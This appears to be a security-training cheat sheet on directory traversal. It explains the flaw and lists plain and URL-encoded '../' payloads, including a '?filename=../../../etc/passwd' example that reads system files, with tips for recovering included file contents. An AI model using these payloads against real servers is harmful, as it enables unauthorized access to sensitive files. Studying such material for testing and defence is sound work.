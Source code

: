 # Directory Traversal

+ Path or directory traversal is a typical file access vulnerability which leads to the ability to include files from the host servers file system, including those from the web application) which lie outside of the web hosts `root directory`
+ Path traversal occurs when the web server allows relative path changing to occur due to poor validation and sanitization of user-supplied or controlled file names or paths
+ In general vulnerable hosts allow directories to be traversed via the `../` unix notation resulting in an attacker being able to climb to higher directories in the file system tree to include sensitive files like `/etc/passwd` which live outside of the directory that the webserver is serving from initially

```
.
├── bin
├── boot
├── cdrom
├── dev
├── etc
├── home
├── lib 
├── lib32 
├── lib64 
├── libx32
├── lost+found
├── media
├── mnt
├── opt
├── proc
├── root
├── run
├── sbin 
├── snap
├── srv
├── swapfile
├── sys
├── tmp
├── usr
└── var
    ├── backups  
    └── www      -> web server serves from here ↥ ../
        ├── css
        ├── index.html
        └── js
```

## Approach

+ Path traversal involves an attacker leveraging the allowance of `../` or its variations to traverse/move to higher directories outside of the web servers root directory
	+ For example on linux based apache servers typically `var/www/html` is the root directory where web server files are hosted

### Payloads

+ Payloads may be appended from places like `domain.com/index.html/payload`
+ Or from URL parameters like `?filename=../../../etc/passwd`

#### General

`/../../../etc/passwd`

`..\`

`....//`

`....\/`

#### Encoded

+ Note the following all represent `../` or `..\` in differing levels of URL encoding

`%2e%2e%2f`

`%2e%2e/`

`..%2f`

`%2e%2e%5c`

`%2e%2e\`

`..%5c`

`%252e%252e%255c`

`..%255c`

`..%c0%af`

### Exfiltration

+ Sometimes a file included via path traversal will not be 'renderable' on the frontend and may instead return in a broken image or another format

#### Image Based

+ To exfiltrate the contents of an included image through firefox use the network dev tab to download the broken image and cat it or open it in a IDE to see the included content
+ Alternatively use a web proxy to view the raw response


## Resources

+ [OWASP Path traversal](https://owasp.org/www-community/attacks/Path_Traversal)
